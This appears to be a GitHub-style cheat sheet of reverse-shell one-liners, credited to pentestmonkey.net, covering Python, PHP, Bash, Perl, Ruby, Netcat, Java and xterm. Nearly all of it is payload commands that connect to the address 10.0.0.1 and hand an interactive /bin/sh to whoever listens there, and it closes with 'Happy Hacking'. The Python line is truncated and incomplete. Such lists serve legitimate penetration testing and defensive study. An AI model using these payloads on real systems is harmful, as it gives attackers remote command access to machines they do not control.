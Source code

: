 # Reverse Shell
It has reverse shell code of various technologies. Thanks to pentestmonkey.net

## Python

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234))

## PHP

php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

## Bash

bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

## PERL

perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

## Ruby

ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

## Netcat

nc -e /bin/sh 10.0.0.1 1234

## Java

r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()

## xterm

xterm -display 10.0.0.1


Note: if the technology version changed these codes may not work. Please check out https://pentestmonkey.net for latest update.

Happy Hacking
